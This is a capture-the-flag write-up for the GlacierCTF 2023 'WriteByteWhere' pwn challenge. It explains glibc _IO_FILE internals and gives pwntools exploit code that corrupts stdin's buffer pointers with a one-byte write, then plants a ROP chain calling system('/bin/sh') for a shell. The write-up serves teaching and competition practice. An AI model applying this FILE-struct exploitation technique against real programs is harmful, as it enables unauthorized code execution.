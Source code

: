 % GlacierCTF 2023 PWN writeups
% LosFuzzys
% Date

# GlacierCTF 2023 PWN writeups

## WriteByteWhere

### Description and Files
```
One byte to rule them all

author: n4nika

nc chall.glacierctf.com 13374
```
Files: `libc.so.6`, `vuln`, `ld-linux-x86-64.so.2` 

### Disassembled main function:

```C
...
v4[0] = 0LL;
fd = open("/proc/self/maps", 0);              // opening memory mappings
...
if ( read(fd, proc_self_maps, 0x1000uLL) < 0 )
{
  ...
}
close(fd);
puts(proc_self_maps);                         // printing memory mappings
printf("Here is an extra: %p\n", v4);         // extra stack leak
printf("Where: ");                            // location to write to
__isoc99_scanf("%lld", v4);
getchar();
printf("What: ");                             // byte to write
__isoc99_scanf("%c", v4[0]);
getchar();                                    // triggers another use of the file struct
puts("Goodbye! (press  Enter  to exit)");
getchar();                                    // triggers a final read call
exit(0);
```

All the binary does, is printing the process' memory layout as well as a stack leak, 
read in an arbitrary value and write an arbitrary byte to that location.
  
What is interesting about the binary is that there are two more calls to `getchar` after the byte has been written and it exiting afterwards.  
Finding the right byte to overwrite is probably the trickiest part of this challenge. The two `getchar`s hint to it having something to do with the internal filestructure.
  
### Libc internals
Looking into the libc source (for example here: https://elixir.bootlin.com/glibc/latest/source/libio/bits/types/struct_FILE.h#L49), or looking at it in gdb, we find the following layout of a `_IO_FILE` struct:
```C
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```


Let's look at how the `getchar` function works internally. As looking through this in the libc source is an absolute nightmare, let's step through it in gdb.  
We break on the second `getchar` call and step through. The callstack looks like this:  
`getchar` --> `__uflow` --> `_IO_default_uflow` --> `_IO_file_underflow` --> `_IO_file_read` --> `read` which finally does a `read` syscall.

![uflow](./images/uflow.png)  
![default_uflow](./images/default_uflow.png)  
![file_underflow](./images/file_underflow.png)  
![file_read](./images/file_read.png) 

So let's look into `_IO_file_underflow` which we find as `_IO_new_file_underflow` in the libc source, to find out how we get the arguments for the read call. (for example here: https://elixir.bootlin.com/glibc/latest/source)  

```C
int _IO_new_file_underflow (FILE *fp)
{
  ssize_t count;

  . . .

  if (fp->_IO_read_ptr < fp->_IO_read_end)
    return *(unsigned char *) fp->_IO_read_ptr;

  if (fp->_IO_buf_base == NULL)
    {
      if (fp->_IO_save_base != NULL)
        {
          free (fp->_IO_save_base);
          fp->_flags &= ~_IO_IN_BACKUP;
        }
      _IO_doallocbuf (fp);
    }

  . . .

  _IO_switch_to_get_mode (fp);

  fp->_IO_read_base = fp->_IO_read_ptr = fp->_IO_buf_base;
  fp->_IO_read_end = fp->_IO_buf_base;
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_write_end
    = fp->_IO_buf_base;

  count = _IO_SYSREAD (fp, fp->_IO_buf_base,
		       fp->_IO_buf_end - fp->_IO_buf_base);

  . . .

  return *(unsigned char *) fp->_IO_read_ptr;
}
```
  
We pass all the checks before the `_IO_switch_to_get_mode` call and after that, it is getting interesting. Some pointers are newly set and calculated but the nice part is,  
we see that `_IO_SYSREAD` is called with:  
* Filedescriptor: `fp` which is `_IO_2_1_stdin_`
* Destination: `fp->_IO_buf_base` which is `_IO_2_1_stdin_+56`
* Size: `fp->_IO_buf_end - fp->_IO_buf_base` 
  
With that knowledge, let's think about where to place our one allmighty byte :)

 
### Exploitation approach
To exploit this binary, the approach is the following:  
* Overwrite the second LSB of the `_IO_buf_base` in the `_IO_2_1_stdin_` structure with a byte which is smaller than the previous one
* This causes the `getchar` that captures the newline of scanf to read to a pointer before `_IO_2_1_stdin_` until it reaches `_IO_buf_end`
* With this, overwrite the `_IO_2_1_stdin_` struct with pointers pointing to where the stackframe of the last `getchar` call will be
* When the internal struct is used again in the last `getchar` call, we overwrite its stack and place a ropchain there
  
Sounds good so let's do it.
Since we got the memory mappings of the program, we know what is written in `_IO_buf_base`. My approach was to take the second LSB, subtract 1 from it, effectively increasing the  
buffersize from 1 to 0x101 bytes.

Note: since the `getchar` after the `scanf` would normally read the newline it leaves in the stdin stream, we have to send our payload for overwriting `_IO_2_1_stdin_` as part of our wanted byte!

```python
# since we have the address of our "where" variable, the stored rip of the next getchar call is constant -0x18 bytes away
stack_offset = -0x18

# stdin + offset_to_buf_base + "second LSB"
target = libc.address + (0x7f965423e8e0 - 0x7f9654000000) + 56 + 1
sla(b"Where:", str(target).encode())

# this is the default pointer located in the stdin filestructure (+1)
default_filestream_ptr = stdin+131

# we write "byte_to_write-1" in order to decrement the buf_base by 0x100 bytes
byte_to_write = (default_filestream_ptr // 0x100) & 0xff

# now the target is the stored rip of getchar
target = stack_leak + stack_offset

# here we offset the buf_base by -0x100 bytes
payload = p8(byte_to_write-1).ljust(126, b"\x00")
payload += p64(0xfbad208b) # we overwrite "flags" with what they were before 
payload += p64(stdin) # "read_ptr" needs to be a valid pointer
payload += p64(0) * 5 # these 5 don't matter
payload += p64(target) # "buf_base"
payload += p64(target + 0x200) # we get a read of 0x200 bytes for our ropchain
payload = payload.ljust(0x101, b"\x00") # padding

sla(b"What:", payload)
```
  
Having a second look at the `_IO_FILE` struct, we see that with this we can overwrite the entire structure.  
Since libc does no integrity checks on the pointers we control, we can take that extra stack leak we got, calculate where the stackframe of the last `getchar` will be  
and point our `_IO_buf_base` there and `_IO_buf_end` to `_IO_buf_base` plus enough space for a ropchain. The only thing to be aware of, is that `_IO_read_ptr` needs to be a valid pointer  
and that the flags might mess you up if certain bits are set there so I overwrote both with their original value.
  
Now our `_IO_2_1_stdin_` looks like this when we enter the last `getchar` call:

![_IO_2_1_stdin_ after overwrite](./images/after_overwrite.png)  
![stack of getchar](./images/stack_before_ropchain.png)

We can see that `_IO_buf_base` points to our stored RIP, so we only have to send a ropchain that pops a shell on the next `getchar` call and we win.
  
```python
rop = ROP(libc)
rop(rdi=next(libc.search(b"/bin/sh")), rsi=0, rdx=0)
rop.call(libc.sym.system)

# now on the last getchar call, we write the ropchain
sla(b"exit)", rop.chain())
proc.interactive()
```
  

Running the exploit, we pop a shell: (find the full exploit in exploit.py)  
  
![shell](./images/popped_shell.png)
